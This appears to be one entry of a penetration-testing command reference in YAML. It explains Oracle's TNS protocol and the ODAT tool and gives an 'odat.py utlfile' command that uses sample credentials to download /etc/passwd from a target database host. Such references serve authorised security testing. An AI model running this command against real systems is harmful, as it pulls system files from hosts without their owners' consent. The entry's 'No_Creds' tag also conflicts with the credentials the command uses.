 ```yaml
---
description: |
  Transparent Network Substrate (TNS), a proprietary Oracle computer-networking technology, supports homogeneous peer-to-peer connectivity on top of other networking technologies such as TCP/IP, SDP and named pipes. TNS operates mainly for connecting to Oracle databases. Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. The following command downloads a file with Oracle RDBMS.

  Command Reference:
    
      Target: 10.10.10.1

      Database: oracle

      User: john

      Password: password123

      Download file: /etc/passwd

      Output file: passwd.txt

command: |
  ./odat.py utlfile -s 10.10.10.1 -d oracle -U john -P password123 --test-module --getFile /etc/ passwd passwd.txt
items:
  - No_Creds
services:
  - TNS
OS:
  - Linux
  - Windows
phases:
  - Enumeration
references:
  - https://github.com/quentinhardy/odat
  - https://en.wikipedia.org/wiki/Transparent_Network_Substrate
---
```

